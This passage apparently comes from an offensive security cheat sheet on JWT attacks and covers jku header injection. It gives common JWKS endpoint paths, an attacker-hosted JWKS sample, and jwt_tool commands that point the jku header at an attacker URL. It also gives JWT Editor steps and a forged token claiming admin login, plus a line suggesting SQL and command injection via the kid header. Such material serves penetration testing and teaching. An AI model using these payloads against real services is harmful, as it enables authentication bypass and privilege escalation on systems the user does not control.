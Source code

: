 * Modify the kid header to attempt SQL and Command Injections


### JWKS - jku header injection

"jku" header value points to the URL of the JWKS file. By replacing the "jku" URL with an attacker-controlled URL containing the Public Key, an attacker can use the paired Private Key to sign the token and let the service retrieve the malicious Public Key and verify the token.

It is sometimes exposed publicly via a standard endpoint:

* `/jwks.json`
* `/.well-known/jwks.json`
* `/openid/connect/jwks.json`
* `/api/keys`
* `/api/v1/keys`

You should create your own key pair for this attack and host it. It should look like that:

```json
{
    "keys": [
        {
            "kid": "beaefa6f-8a50-42b9-805a-0ab63c3acc54",
            "kty": "RSA",
            "e": "AQAB",
            "n": "nJB2vtCIXwO8DN[...]lu91RySUTn0wqzBAm-aQ"
        }
    ]
}
```

**Exploit**:

* Using [ticarpi/jwt_tool]
    ```ps1
    python3 jwt_tool.py JWT_HERE -X s
    python3 jwt_tool.py JWT_HERE -X s -ju http://example.com/jwks.json
    ```
* Using [portswigger/JWT Editor](#)
    1. Generate a new RSA key and host it
    2. Edit JWT's data
    3. Replace the `kid` header with the one from your JWKS
    4. Add a `jku` header and sign the JWT (`Don't modify header` option should be checked)

**Deconstructed**:

```json
{"typ":"JWT","alg":"RS256", "jku":"https://example.com/jwks.json", "kid":"id_of_jwks"}.
{"login":"admin"}.
[Signed with new Private key; Public key exported]
```


## Labs 
